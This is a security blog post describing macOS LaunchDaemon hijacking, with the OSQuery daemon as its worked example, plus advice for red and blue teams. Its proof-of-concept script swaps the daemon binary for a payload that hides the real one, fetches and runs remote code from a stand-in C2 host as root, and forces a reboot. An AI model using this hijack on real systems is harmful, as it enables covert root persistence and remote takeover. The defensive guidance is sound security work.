




LaunchDaemon (or LaunchAgent) Hijacking is a MacOS privilege escalation and persistence technique. It involves abusing insecure file/folder permissions to replace legitimately installed, misconfigured LaunchDaemons with malicious code.
I first spotted this issue affecting the OSQuery installer but went looking and found multiple other products with the same problem. This isn’t a novel technique (it’s briefly mentioned in T1543.004) but I was surprised to find it so rarely talked about.
Example – Hijacking the OSQuery LaunchDaemon
What is OSQuery?
OSQuery is a monitoring tool that lets you remotely query the configuration and status of hosts using SQL. On MacOS, this is accomplished by running a LaunchDaemon on each laptop that syncs with a backend server.
The OSQuery installer creates a binary called /usr/local/bin/osqueryd and sets up a LaunchDaemon via /Library/LaunchDaemons/com.facebook.osqueryd.plist:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>KeepAlive</key>
<true/>
<key>Disabled</key>
<false/>
<key>Label</key>
<string>com.facebook.osqueryd</string>
<key>ProgramArguments</key>
<array>
<string>/usr/local/bin/osqueryd</string>
<string>--flagfile=/private/var/osquery/osquery.flags</string>
</array>
<key>RunAtLoad</key>
<true/>
<key>ThrottleInterval</key>
<integer>60</integer>
</dict>
</plist>
Which, at a high level, looks like this: 
On a default MacOS install, this is perfectly safe:
/Library/LaunchDaemons/com.facebook.osqueryd.plistcan’t be tampered with to run anything other than/usr/local/bin/osqueryd✅/usr/local/bin/osquerydcan’t be modified to include malicious code ✅
How is this exploitable?
While /usr/local/bin is a secure folder to store binaries on a default MacOS install, this isn’t the case on many real-world systems.
Many people install a package manager called Homebrew which, during installation, makes the /usr/local/bin folder writable by the current user (even if they’re not an admin).
This subtly changes the picture:

Now, although a normal user can’t modify the /usr/local/bin/osqueryd file directly, they can simply replace it!
Because /usr/local/bin is globally writeable, any user on the system has permission to:
- Delete files in this folder—for example, the real
osquerydbinary. - Create files in this folder—for example, some malware named
osqueryd.
Proof of concept
# 1. Move the original osqueryd binary somewhere else
mv /usr/local/bin/osqueryd /usr/local/bin/.osquery/osqueryd
# 2. Create our replacement osqueryd
cat << EOF > /usr/local/bin/osqueryd
#!/bin/bash
# Firstly start the original osqueryd binary in the background
# (so no one notices we've hijacked it)
/usr/local/bin/.osquery/osqueryd &
# Then run our malicious payload e.g. a JXA stager
/usr/bin/osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('https://my-c2.com')),$.NSUTF8StringEncoding)));"
EOF
# 3. Reboot the machine. Our payload will be started as root on start-up
osascript -e 'tell application "System Events" to restart'
This short script demonstrates a complete LaunchDaemon Hijack:
- Firstly it moves the real
osquerydbinary to a hidden folder. - It then creates a payload in
/usr/local/bin/osquerydthat:- Starts the original
osquerydbinary in the background (to help avoid anyone noticing the LaunchDaemon has been hijacked). - Runs a backdoor.
- Starts the original
- Finally it reboots the machine to force the OSQuery LaunchDaemon to restart. This step is optional but otherwise we won’t get code execution until the user restarts themselves.
Once exploited, the system looks like this: 
Exploiting this in general
OSQuery is not alone in being vulnerable to this technique.
The change in /usr/local/bin permissions during a Homebrew install is a particularly common cause of this issue.
A secure (non-hijackable) LaunchDaemon needs to look like this: 
All four of those padlocks needs to be correctly present to avoid being vulnerable. A non-root user mustn’t be able to:
- Modify any file within
/Library/LaunchDaemons - Create files within
/Library/LaunchDaemons - Modify any binary referenced by
/Library/LaunchDaemons/*.plist - Create binaries within a folder referenced by
/Library/LaunchDaemons/*.plist
Developers and admins are pretty good at getting points 1–3 right. It’s point 4 where problems are most likely to arise—folder permissions are just a bit more confusing than file permissions.
What to do about LaunchDaemon Hijacking
For red teamers
LaunchDaemon Hijacking can be a particularly sneaky way to achieve both persistence and privilege escalation on MacOS.
Because it doesn’t create or modify any of the *.plist files in /Library/LaunchDaemons or /Library/LaunchAgents,
it’s not going to trigger any detection rules looking for changes in these folders.
If you’re willing to wait until the user reboots the machine themselves, this is a way to gain root privileges without doing something as obvious as phishing the user for their laptop password.
Of course, this technique can also apply to a user’s personal LaunchAgents (configured in /Users/username/Library/LaunchAgents).
These are very likely run binaries that can be hijacked to achieve persistence
(though you won’t gain any additional privileges this way).
For blue teamers
Protective measures
Thankfully, LaunchDaemon Hijacking opportunities are fairly easy to detect and fix.
All you need to look for is any /Library/LaunchDaemons/*.plist or /Library/LaunchAgents/*.plist file where either:
- The binary being launched is writeable by non-root users.
- The binary being launched is in a directory writeable by non-root users.
The fix is simply to fix the file permissions or move the binary to a more secure location.
Here is a small script that logs LaunchDaemons which are hijackable by the current user: launchdaemon_hijacking.go
⚠️ Beware, this script doesn’t detect more nuanced cases. For example, where a LaunchDaemon runs bash with a hijackable script as an argument.
Detective measures
If you can’t fix a LaunchDaemon, your best bet is probably File Integrity Monitoring.
Because this technique requires replacing the LaunchDaemon binary, you’ll be able to detect it by regularly computing file checksums and comparing against known-good values.
A pretty good way to monitor the integrity of LaunchDaemons is actually OSQuery itself…